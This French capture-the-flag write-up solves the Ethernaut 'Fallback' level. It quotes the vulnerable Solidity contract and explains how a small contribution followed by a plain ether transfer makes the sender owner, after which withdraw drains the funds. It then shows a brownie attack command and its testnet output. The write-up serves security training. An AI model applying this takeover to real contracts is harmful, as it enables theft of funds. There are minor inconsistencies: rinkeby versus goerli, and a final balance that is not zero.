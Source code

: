 # Fallback

## Objectifs
Les objectifs de ce niveau sont:
1- devenir le owner du contrat
2- réduire la balance du contrat à 0

La méthode [withdraw](contracts/fallback.sol#L37) utilise le `modifier` `onlyOwner`, nous devons donc passer `owner` avant de pouvoir réduire la balance du contrat à 0.

## Devenir owner

Le contrat donne la possibilité de devenir `owner` avec les méthodes suivantes:
- [`contribute`](contracts/fallback.sol#L29)
- [`receive`](contracts/fallback.sol#L43)

Lors de la création du contrat, la contribution du `owner` est de [`1000 ether`](contracts/fallback.sol#L14)
```solidity
constructor() public {
  owner = msg.sender;
  contributions[msg.sender] = 1000 * (1 ether);
}
```
Pour devenir `owner` via la méthode `contribute`, il est nécessaire de fournir une contribution plus importante que celle du `owner` mais cette méthode limite le `msg.value` à `0.001 ether`:
```solidity
function contribute() public payable {
  require(msg.value < 0.001 ether);
  contributions[msg.sender] += msg.value;
  if(contributions[msg.sender] > contributions[owner]) {
    owner = msg.sender;
  }
}
```

Pour devenir `owner` via la méthode `receive`, il faut que la contribution soit supérieure à 0 et qu'il y ait de la valeur associé à cet appel:
```solidity
receive() external payable {
  require(msg.value > 0 && contributions[msg.sender] > 0);
  owner = msg.sender;
}
```

Afin de devenir `owner`, il faut appeller la méthode `contribute` avec un `msg.value` < `0.001 ether` ce qui permet d'avoir une contribution > 0.
Ensuite en envoyant des fonds à l'adresse du contrat, la méthode `receive` va être appellée et ainsi nous devenons `owner` du contrat.

## Récupération des fonds du contrat
Une fois que nous sommes owner, nous pouvons appeller la méthode `withdraw` qui nous permet de récupérer la totalité des fonds du contrat

## Exécution du script d'attaque
Afin de pouvoir agir sur la chaine `rinkeby`, il est nécessaire de créer un fichier `.env` contenant la clé de projet [Infura](https://infura.io/) et la valeur de la clé privée du compte utilisé pour le challenge:
```shell
export WEB3_INFURA_PROJECT_ID='AABBCCDD.......'
export PRIVATE_KEY='0xDEADBEEFCACA...'
```

En utilisant la console sur le site d'[ethernaut openzeppelin](https://ethernaut.openzeppelin.com/level/0x6F9cf195B9B4c1259E8FCe5b4e30F7142f779DeA) on récupère l'adresse du contrat déployé pour lancer l'attaque ainsi:
```bash
$ brownie run attack main "0x3F1A2CFFDC74EB36e0B529f9b2462a6c1D94FDCA" --network goerli
```
```console
Brownie v1.19.0 - Python development framework for Ethereum

FallbackProject is the active project.

Running 'scripts/attack.py::main'...
Transaction sent: 0xb546c7c85b8513fe46a7a819b4b269a0004f5d23191c627db8b232e2217634f0
  Gas price: 5.465819587 gwei   Gas limit: 52501   Nonce: 12
  Transaction confirmed   Block: 7828039   Gas used: 47729 (90.91%)

Transaction sent: 0xef990ff3dac0e346ddf6faa534447d3204826a3e0af1a6b208831b708704d575
  Gas price: 4.781299 gwei   Gas limit: 31132   Nonce: 13
  Transaction confirmed   Block: 7828070   Gas used: 28302 (90.91%)

Owner is hacker: True
Transaction sent: 0x4ceeca8811a63bfb30fa03c6cb5bbe0ef6424f9aa491067b2ce262eb2f90858b
  Gas price: 4.69966451 gwei   Gas limit: 35880   Nonce: 14
  Transaction confirmed   Block: 7828103   Gas used: 30364 (84.63%)

Final contract balance: 1500000000000000
```




